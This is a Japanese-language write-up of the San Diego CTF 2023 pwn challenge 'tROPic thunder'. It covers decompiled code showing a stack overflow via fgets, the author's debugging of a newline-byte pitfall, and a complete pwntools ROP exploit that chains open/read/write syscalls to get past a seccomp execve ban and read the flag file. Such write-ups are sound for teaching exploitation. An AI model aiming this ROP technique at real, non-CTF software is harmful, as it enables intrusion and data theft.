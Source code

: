 # San Diego CTF 2023 `tROPic thunder [pwn]` writeup

## 問題
I hope this isn't your first rodeo

Connect via: `nc thunder.sdc.tf 1337`

Dockerfileと実行バイナリが配布される。

## 解法
ghidraに食わせたらこんな感じ。

```c
undefined8 main(){
  char buf [112];
  
  setbuf((FILE *)stdin,(char *)0x0);
  setbuf((FILE *)stdout,(char *)0x0);
  setbuf((FILE *)stderr,(char *)0x0);
  setup_seccomp();
  puts("you\'ll really be in the jungle with this one!");
  fgets(buf,0x200,(FILE *)stdin);
  return 0;
}
```

非常にシンプルなROP問。
ただし`setup_seccomp()`でexecvシステムコールが禁止されている。

シェルを起動せずにopen, read, writeでflag.txtを読み出すことにする。
(フラグの書かれたファイル名はDockerfileを見たら分かる)

「read, write系の関数はともかく`open()`はないじゃん」と思っていたが、なんとstatic linkだった。`syscall; ret`みたいなガジェットまでバイナリにある。

ここで真面目にROPすればいいのに、mprotectシステムコールで.bssセクションをexecutableにしてシェルコードを流すことを企てる。
こっちの方が楽そうだ。

しかしexoploitコードが機能しない。
しかたなく動的解析すると、`pop rax`でRAXレジスタに0xaをセットするところでROP chainの読み込みが途切れていた。

**`fgets()`は改行(\x0a)で止まります。**

急がば回れ、gadgetも豊富にあるのでopen -> read -> writeを順にROPで実行することに。

## Exploit

```py
from pwn import *
import sys

elf = ELF("tROPic-thunder")

# io = process(elf.path)
io = remote('thunder.sdc.tf', 1337)

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

# gdb.attach(io, gdbscript='b *0x484105')

pop_rdi_ret = next(elf.search(asm('pop rdi ; ret'), executable=True))
pop_rsi_ret = next(elf.search(asm('pop rsi ; ret'), executable=True))
pop_rdx_ret = next(elf.search(asm('pop rdx ; ret'), executable=True))
pop_rax_ret = next(elf.search(asm('pop rax ; ret'), executable=True))
syscall = next(elf.search(asm('syscall ; ret'), executable=True))
flag_addr = elf.bss() + 0x200

p = b'A' * 0x78

# read(0, addr, 0x200)
p += p64(pop_rdi_ret)
p += p64(0)
p += p64(pop_rsi_ret)
p += p64(flag_addr)
p += p64(pop_rdx_ret)
p += p64(0x200)
p += p64(pop_rax_ret)
p += p64(0)
p += p64(syscall)

# open(addr, 0, 0)
p += p64(pop_rdi_ret)
p += p64(flag_addr)
p += p64(pop_rsi_ret)
p += p64(0)
p += p64(pop_rdx_ret)
p += p64(0)
p += p64(pop_rax_ret)
p += p64(2)
p += p64(syscall)

# read(3, addr, 0x200)
p += p64(pop_rdi_ret)
p += p64(3)
p += p64(pop_rsi_ret)
p += p64(flag_addr + 0x200)
p += p64(pop_rdx_ret)
p += p64(0x200)
p += p64(pop_rax_ret)
p += p64(0)
p += p64(syscall)

# write(1, addr, 0x200)
p += p64(pop_rdi_ret)
p += p64(1)
p += p64(pop_rsi_ret)
p += p64(flag_addr + 0x200)
p += p64(pop_rdx_ret)
p += p64(0x200)
p += p64(pop_rax_ret)
p += p64(1)
p += p64(syscall)

print(f'payload len: {hex(len(p))}')

io.sendlineafter(b'one!\n', p)

io.sendline(b'flag.txt\x00')

io.interactive()
```

FLAG: `sdctf{I_w4tch3d_tR0p1c_7huNd3r_wh1l3_m4k1nG_7h1s_ch4al13ng3}`
